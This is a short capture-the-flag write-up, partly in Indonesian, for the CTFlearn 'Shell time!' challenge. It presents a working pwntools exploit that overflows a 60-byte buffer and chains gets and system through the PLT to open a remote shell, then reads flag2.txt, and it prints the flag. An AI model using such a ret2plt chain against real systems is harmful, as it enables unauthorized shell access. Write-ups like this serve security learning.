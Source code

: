 # Shell time! (40 Points)
(Continued from RIP my bof)
<br>
Can you also get a shell? The flag is at /flag2.txt.
<br>
Hint: you do not need libc for this challenge.
<br>
nc thekidofarcrania.com 4902
# Solved
Disini memiliki fungsi <b>system</b> dan <b>gets</b>
```python
gets_plt = struct.pack("<I", (server.plt[b'gets']))
system_plt = struct.pack("<I", (server.plt[b'system']))
```
Yang bisa fungsikan menjadi shell-code, inilah code yang saya gunakan untuk mendapatkan flag
```python
from pwn import *
import struct

BUFF = 60

server = ELF("server")

gets_plt = struct.pack("<I", (server.plt[b'gets']))
system_plt = struct.pack("<I", (server.plt[b'system']))
pop_ebx = struct.pack("<I", (0x080483c9))
bss = 0x804a0a1

r = remote("thekidofarcrania.com", 4902)

payload = flat(["A" * BUFF, gets_plt, pop_ebx, bss, system_plt, 0xdeadbeef, bss])

r.recvuntil("Legend")
r.send(payload + b"\n")
r.recv()

# dir
# $ dir
# bin   dev  flag.txt   home  lib64  mnt    proc  run   server  sys  usr
# boot  etc  flag2.txt  lib   media  opt    root  sbin  srv     tmp  var

r.sendline("cat flag2.txt")
r.interactive()
```
Flag : <b>CTFlearn{c0ngrat1s_0n_th1s_sh3ll!_SKDJLSejf}</b>